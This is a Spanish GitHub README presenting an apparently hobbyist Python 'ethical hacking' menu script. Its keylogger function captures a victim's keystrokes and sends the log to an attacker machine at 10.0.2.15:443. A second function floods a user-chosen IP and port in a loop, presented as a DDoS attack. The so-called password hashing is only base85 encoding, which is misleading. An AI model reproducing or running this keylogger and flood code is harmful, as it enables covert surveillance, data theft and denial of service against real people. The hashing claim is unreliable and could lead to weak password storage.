# Script-Hacking-Automatizado-con-Python
Os traigo un script de python que incluye 5 mini programas dentro de el script para que el usuario eliga uno de ellos y pueda llevar a cabo sus pruebas.

Os he dejado el fichero.py adjunto a este repositorio pero os dejo el codigo aqui por si hay algun problema:


import socket
import keyboard
import webbrowser
import time
import base64
from colorama import Fore
import inspect

#Este programa consiste en ofrecer una eleccion al usuario
#para que eliga entre 5 programas para hacking.
#Cada programa esta dentro de una funcion
#Primer programa: Un keylogger
#Segundo programa: Un DDoS atack
#Tercer programa: Noticias de ciberseguridad
#Cuarto programa: Analisis de malware
#Quinto programa: Hashear una contraseña

print("")

#PRIMER PROGRAMA
def keylogger():
    try:
        print("")
        print("")
        #Importamos librerias

        #Para las conexiones
        #import socket
        #Para la entrada de teclado
        #import keyboard

        #Almacenamos las palabras en una variable
        palabra = ""

        #Contamos las palabras ingresadas
        contador_palabras = 0

        #Bucle infinito para recibir las palabras
        while True:
            #Para empezar el evento de teclados
            evento_de_teclado = keyboard.read_event()
            #Si se pulsa una tecla
            if evento_de_teclado.event_type==keyboard.KEY_DOWN:
                #Si es la tecla espacio
                if evento_de_teclado.name=="space":
                    with open("keylogger_output.txt","a") as file:
                        file.write(palabra + " ")
                        print("Nueva palabra ingresada por la victima:")
                        print(palabra)
                        contador_palabras = contador_palabras + 1
                        print("Numero de palabras ingresadas:")
                        print(contador_palabras)
                    palabra = ""  # Reiniciar palabra
                #Si son el escape o un numero
                #para salir del bucle y del programa
                elif evento_de_teclado.name == "esc":
                    print("El usuario ha pulsado el escape")
                    break
                elif evento_de_teclado.name.isnumeric():
                    print("El usuario ha pulsado un numero")
                    break
                else:
                    palabra += evento_de_teclado.name

        try:
            #Con el archivo y una conexion socket
            with open("keylogger_output.txt","rb") as file, socket.socket(socket.AF_INET,socket.SOCK_STREAM) as mi_socket:
                mi_socket.connect(("10.0.2.15",443))
                #Enviamos el fichero a nuestra maquina atacante
                mi_socket.sendall(file.read())
        except Exception as e:
            #Para manejar si hay algun error
            print("Error en el programa keylogger")
            print(e)
    
    except Exception as e:
        print("Parece que el Keylogger no se ha podido ejecutar, deja que te muestre al menos su codigo: ")
        print("")
        codigo_keylogger = inspect.getsource(keylogger)
        print(codigo_keylogger)
        

    #Cerramos la conexion
    mi_socket.close()

#SEGUNDO PROGRAMA
def DDoS():
    print("")
    #Libreria de conexion
    #import socket as SOCKET

    #Servidor
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    #Parametros
    ip = input("Dime la ip victima: ")
    port = int(input("Dime el puerto: "))
    bytess = 1000 * "x"

    try:
        while True:
            server.sendto(bytess.encode(), (ip, port))
            print(f"Enviando paquetes a {ip}:{port}")
    except KeyboardInterrupt:
        print("Ataque detenido por el usuario.")
    except Exception as e:
        print("Error en el programa DDoS")
        print(e)
    finally:
        server.close()

#TERCER PROGRAMA
def web_ciberseguridad():
    #import webbrowser
    #import time
    #Los print
    print("")
    print("")
    print("Vamos a ver las noticias de ciberseguridad")
    print("")

    #Url a la web
    url = "https://thehackernews.com/"

    for i in range(5, 0, -1):
        print(f"Abriendo TheHackerNews.com en {i}...")
        time.sleep(1)

    print("")
    print("GOOOO!!!")

    #Abrimos la pagina web
    webbrowser.open(url=url)


#CUARTO PROGRAMA
def Analisis_de_malware():
    #import webbrowser
    #import time
    #Los print
    print("")
    print("")
    print("Vamos a hacer un analisis de malware a esta maquina")
    print("")

    #Url a la web
    url2 = "https://www.abuseipdb.com/"

    for i in range(5, 0, -1):
        print(f"Abriendo abuseipdb.com en {i}...")
        time.sleep(1)

    print("")
    print("GOOOO!!!")

    #Abrimos la pagina web
    webbrowser.open(url=url2)

#QUINTO PROGRAMA
def hashear_contraseña():
    #import base64

    #Pedir contraseña al usuario
    contraseña = input("Dime una contraseña para haseharla: ")
    print("")

    #Hashearla con un algoritmo
    hashear_contraseña = base64.a85encode(contraseña.encode()).decode()

    #Imprimirla
    print("Tu contraseña hasheada es:")

    print("")

    print(hashear_contraseña)

print("")
print("")
print("Programa hecho por Alejandro Doral")
print("")
time.sleep(2)
print("Bienvenido a este programa con mini programas de hacking etico y ciberseguridad automatizados")
print("")
time.sleep(3)
print("Estas son las opciones que tienes a elegir: ")
print("")
time.sleep(3)
print(Fore.GREEN + "1. Programa Keylogger")
print("")
time.sleep(1.5)
print(Fore.RED + "2. DDoS ataque")
print("")
time.sleep(1.5)
print(Fore.BLUE + "3. Noticias de Ciberseguridad")
print("")
time.sleep(1.5)
print(Fore.YELLOW + "4. Analisis de malware")
print("")
time.sleep(1.5)
print(Fore.MAGENTA + "5. Hashear una contraseña")
print(Fore.WHITE + "")
time.sleep(3)
print("Elige un programa")
print("")
eleccion_usuario = int(input("Programa a elegir --->"))
time.sleep(2)
print("")

if eleccion_usuario == 1:
    print(Fore.GREEN + "Has elegido el programa 1: Keylogger")
    time.sleep(2)
    keylogger()
elif eleccion_usuario == 2:
    print(Fore.RED + "Has elegido el programa 2: Ataque DDoS")
    time.sleep(2)
    DDoS()
elif eleccion_usuario == 3:
    print(Fore.BLUE + "Has elegido el programa 3: Noticias de Ciberseguridad")
    time.sleep(2)
    web_ciberseguridad()
elif eleccion_usuario == 4:
    print(Fore.YELLOW + "Has elegido el programa 4: Analisis de malware")
    time.sleep(2)
    Analisis_de_malware()
elif eleccion_usuario == 5:
    print(Fore.MAGENTA + "Has elegido el programa 5: Hashear una contraseña")
    print("")
    time.sleep(2)
    hashear_contraseña()
else:
    print("Esa no es una opcion valida")

print("")
print("")
print("")
print("Gracias por usar el programa de Doral")
print("")
print("")
